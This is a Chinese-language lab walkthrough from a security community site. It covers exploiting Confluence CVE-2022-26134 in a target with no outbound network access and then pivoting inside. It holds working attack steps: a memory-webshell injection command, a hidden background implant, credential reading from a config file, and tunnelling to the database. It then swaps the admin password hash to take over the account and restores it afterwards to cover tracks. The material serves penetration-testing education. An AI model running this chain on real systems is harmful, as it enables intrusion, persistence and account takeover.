# 不出网环境下的渗透测试-先知社区

> **来源**: https://xz.aliyun.com/news/17321  
> **文章ID**: 17321

---

## 提要

本次模拟不出网环境下的渗透测试，靶机搭建了有CVE-2022-26134漏洞的confluence服务

confluence服务位于端口8090

用到的工具有vshell，suo5，哥斯拉，proxifier，navicat

靶机ip：10.10.10.135

攻击机：10.10.10.1

## 正式操作

首先我们上传带有CVE-2022-26134的内存马

```
E:\web\tools\ONE-FOX集成工具箱_V8.2公开版_by狐狸\Java_path\Java_8_win\bin\java.exe -jar CVE-2022-26134.jar http://10.10.10.135:8090/ pass key
```

哥斯拉连接成功后，利用suo5插件注入Suo5Filter马



注入成功后，我们就用suo5客户端连接



至此，我们的一层代理就搭好了

现在我们使用vshell生成正向监听器



下载成功后，我们利用哥斯拉上传文件到`/var/tmp`里

然后在哥斯拉里的虚拟终端上赋权+nohup运行（nohup执行不留痕迹）

```
cd /var/tmp
chmod +x tcp_linux_amd64
nohup ./tcp_linux_amd64 > /dev/null 2>&1 &
```



然后查看内网ip

```
cat /etc/hosts
#172.18.0.3
```



然后我们就可以在vshell上建立正向连接了



成功连接


我们拥有了正向shell之后，我们可以在`/var/atlassian/application-data/confluence/confluence.cfg.xml`里看到数据库ip、账号、密码



账号密码`postgres:postgres`，但是数据库的ip被db顶替了，端口为5432，我们用curl查看

```
curl db -vv
```



可以看到数据库IP为`172.18.0.2`

然后我们现在可以搭建第二个代理来把数据库引出来

首先在vshell里创建隧道


然后我们启动proxifier设置一下





然后使用navicat连接



我们可以在`confluence`库里的`cwd_user`表里查看到管理员账号密码



由于confluence数据库密码使用的是 PBKDF2加密，我们先将此密码备份下来

```
{PKCS5S2}X1AmkpM26Jj50k/2GNBEHB2DfbvKTmoevf90yaWYgALYVarRZK1Bmv2XcdxjDvPR
```

然后我们将其替换成密码123456

```
{PKCS5S2}UokaJs5wj02LBUJABpGmkxvCX0q+IbTdaUfxy1M9tVOeI38j95MRrVxWjNCu6gsm
```

然后快速登录confluence



成功登陆后，我们快速创建新的管理员账号



然后退出admin账号，并将其密码修改成原来的密码

至此，渗透后利用就可以由此展开了。。。

## 总结

模拟靶机不出网的情况下，首先我们使用suo5代理出shell到vshell，然后再利用proxifier代理出数据库到本地navicat，再在此基础上进行操作
